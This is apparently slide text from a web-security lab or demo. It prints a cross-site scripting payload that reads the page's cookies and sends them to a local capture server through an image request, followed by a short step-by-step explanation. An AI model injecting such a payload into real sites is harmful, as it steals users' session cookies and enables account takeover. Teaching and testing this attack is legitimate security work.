

# Payload Used
<script>var img = new Image(); img.src = "http://127.0.0.1:5000/capture?data=" + encodeURIComponent(document.cookie);</script>

This script:
Creates a new image element.
Sends the data to the local server at http://127.0.0.1:5000/capture.
The data is sent as part of the URL query string.